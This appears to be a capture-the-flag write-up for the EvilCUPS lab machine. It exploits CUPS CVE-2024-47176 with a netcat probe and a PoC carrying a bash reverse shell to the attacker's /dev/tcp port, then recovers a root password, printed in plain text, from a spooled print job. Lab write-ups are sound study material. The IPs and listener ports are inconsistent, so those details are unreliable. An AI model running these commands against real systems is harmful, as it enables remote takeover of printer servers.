


# EvilCUPS



__Machine IP__: 10.10.10.160

__DATE__ : 17/10/2024

__MODE__ : Guided


# Machine Info
EvilCUPS is a Medium difficulty Linux machine that features a CUPS Command Injection Vulnerability [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176). This CVE allows remote unauthenticated users the ability to install a malicious printer on the vulnerable machine over `UDP/631`. This printer is configured to utilize [Foomatic-RIP](https://linux.die.net/man/1/foomatic-rip) which is used to process documents and where the command injection happens. In order to trigger the command execution, a document needs to be printed. The CUPS Webserver is configured to allow anonymous users access to `TCP/631`. Navigating here makes it possible to print a test page on the malicious printer and gain access as the "lp" user. This user the ability to retrieve past print jobs, one of which contains the root password to the box. 

## NMAP
```bash
nmap -sV -sC 10.10.11.40 -oA EvilCUPS.nmap

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 21:51 EDT
Nmap scan report for 10.10.11.40
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Foothold
Task 4 tells us to look for a 2024 CVE

[Rapid 7 blog](https://www.rapid7.com/blog/post/2024/09/26/etr-multiple-vulnerabilities-in-common-unix-printing-system-cups/)

CVE-2024-47176

### Testing if target is vulnerable to CVE-2024-47176

Netcat listener

```bash
nc -lnvp 444
```

Specially crafted payload


```bash
echo '0 3 http://10.10.14.3:4444/printers/SouthEastPrince' | nc -nu 10.10.11.40 631
```

Catch
```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.40] 36100
POST /printers/SouthEastPrince HTTP/1.1
Content-Length: 188
Content-Type: application/ipp
Date: Thu, 17 Oct 2024 03:17:03 GMT
Host: 10.10.14.3:4444
User-Agent: CUPS/2.4.2 (Linux 6.1.0-25-amd64; x86_64) IPP/2.0
Expect: 100-continue


.Gattributes-charsetutf-8Httributes-natural-languageen-usE
                                                          printer-uri.ipp://10.10.14.3:4444/printers/SouthEastPrinceDrequested-attributesallDmedia-col-database

```

Attack

[PoC](https://github.com/gumerzzzindo/CVE-2024-47176/)

terminal 1
```bash
nc -lnvp 1337
```

terminal 2
```bash
./evilcups.py 10.10.10.10 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'"
```



print test page and we catch the reverse shell on our terminal 1

# User

we can see user at /home/htb/user.txt

# Root

finding the first print job, we can use google and see it is stored in 

/var/spool/cups/d00001-001

```bash
less v*/s*/cu*/d*
```

we can find a password here

Br3@k-G!@ss-r00t-evilcups

```bash
ssh root@10.10.11.40
```

we are logged in as Root and have pwned the machine.
